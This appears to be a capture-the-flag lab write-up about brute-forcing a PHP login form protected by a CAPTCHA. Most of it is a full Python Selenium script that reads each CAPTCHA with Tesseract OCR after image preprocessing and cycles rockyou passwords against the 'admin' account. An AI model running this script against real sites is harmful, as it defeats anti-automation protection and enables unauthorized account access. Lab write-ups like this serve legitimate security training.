 Description
The web application has a login form with three fields: username, password, and CAPTCHA. To prevent automated brute-forcing, a CAPTCHA changes every time the page is loaded.
This project solves the CAPTCHA bypass by automating Firefox browser via Selenium and using OCR (Tesseract library) to recognize the CAPTCHA text. The script loads the page, extracts the CAPTCHA image, processes it to improve OCR accuracy, inputs the credentials, and attempts to login automatically.

My IP Addresses
Attacker machine IP (my IP): 10.10.82.126

Target machine IP: 10.10.104.119

What I Did
Analyzed the web application, found a login form with CAPTCHA on port 80 of the target machine.

Enumerated the web directories using gobuster, confirmed PHP backend.

Prepared a wordlist with the first 100 passwords from rockyou.txt.

Developed a Python script using Selenium and Firefox to automate login and bypass CAPTCHA.

Used Tesseract OCR for CAPTCHA text recognition.

Applied image processing to the CAPTCHA to enhance recognition accuracy.

Ran the script — successfully brute-forced the password and retrieved the flag.

Code Snippet (Key Parts)

from selenium.webdriver.common.by import By
from selenium import webdriver
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service
import time
from PIL import Image, ImageEnhance, ImageFilter
import io
import pytesseract

options = Options()
options.add_argument('--headless')  # Run in headless mode
options.set_preference("general.useragent.override", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0")

service = Service(executable_path='/usr/bin/geckodriver')
browser = webdriver.Firefox(service=service, options=options)

ip = 'http://10.10.104.119/'
login_url = f'{ip}index.php'
dashboard_url = 'dashboard.php'
username = "admin"

with open("wordlist.txt", 'r', encoding='utf-8') as file:
    passwords = [line.strip() for line in file]

for password in passwords:
    print(f"[*] Trying password: {password}")
    while True:
        browser.get(login_url)
        time.sleep(1)

        captcha_img = browser.find_element(By.TAG_NAME, "img")
        captcha_png = captcha_img.screenshot_as_png

        image = Image.open(io.BytesIO(captcha_png)).convert("L")
        image = image.resize((image.width * 2, image.height * 2), Image.LANCZOS)
        image = image.filter(ImageFilter.SHARPEN)
        image = ImageEnhance.Contrast(image).enhance(2.0)
        image = image.point(lambda x: 0 if x < 140 else 255, '1')

        captcha_text = pytesseract.image_to_string(
            image,
            config='--psm 7 -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ23456789'
        ).strip().replace(" ", "").replace("\n", "").upper()

        if not captcha_text.isalnum() or len(captcha_text) != 5:
            print(f"[!] OCR failed: '{captcha_text}', retrying...")
            continue

        browser.find_element(By.ID, "username").send_keys(username)
        browser.find_element(By.ID, "password").send_keys(password)
        browser.find_element(By.ID, "captcha_input").send_keys(captcha_text)
        browser.find_element(By.ID, "login-btn").click()

        time.sleep(1)

        if dashboard_url in browser.current_url:
            print(f"[+] Login successful with password: {password}")
            try:
                flag = browser.find_element(By.TAG_NAME, "p").text
                print(f"[+] Flag: {flag}")
            except:
                print("[!] Flag not found.")
            browser.quit()
            exit()
        else:
            if "error" in browser.current_url:
                print(f"[-] Incorrect password: {password}")
                break
            else:
                print("[-] CAPTCHA failed, retrying...")
                continue

browser.quit()
Summary
Automated successful password brute-force with CAPTCHA bypass.

Retrieved the flag from the target machine.

Used Firefox and Selenium to control the browser and bypass protection.

Used Tesseract OCR with image preprocessing for CAPTCHA recognition.
